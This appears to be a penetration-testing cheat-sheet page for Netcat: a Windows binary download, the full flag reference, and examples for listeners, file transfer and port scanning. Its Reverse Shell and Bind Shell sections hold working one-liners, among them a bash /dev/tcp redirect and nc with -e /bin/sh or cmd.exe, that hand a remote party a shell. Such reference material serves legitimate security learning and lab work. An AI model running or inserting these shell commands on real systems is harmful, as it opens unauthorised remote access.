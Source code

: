 # Nc

Versatile networking tool used for reading from and writing to network connections using TCP or UDP.

## Binary for Windows

- [nc.exe](../assets/files/nc.exe){:download="nc.exe"}
- SHA256 ’nc.exe’ - be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b

## Usage

```bash
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

## Flags

```bash
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Examples

##### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```bash
nc -lvp 10.10.10.2 80
```

##### Transferring files

Receiver

```bash
nc -nlvp 10.10.10.2 4444 > incoming.exe
```

Sender

```bash
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

##### Reverse Shell

Receiver

```bash
nc -nlvp 10.10.10.2 4444
```

Identity connecting and sending the reverse shell:

```bash
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

OR identity connecting and sending the reverse shell:

```bash
nc 10.10.10.2 4444 -e /bin/sh
```

##### Bind Shell

Receiver

```bash
nc -nlvp 4444 -e cmd.exe
```

Identity connecting to bind shell:

```bash
nc -nv <ip> 4444
```

##### Port Scanning (TCP)

**Note: NetCat port scanning is based on the three-way handshake.**

```bash
nc -nvv -w 1 -z 10.10.10.20 3380-3390
```

##### Port Scanning (UDP)

```bash
nc -nv -u -z -w 1 10.10.10.20 160-162
```

## References

- [Linux.die.net](https://linux.die.net/man/1/nc)

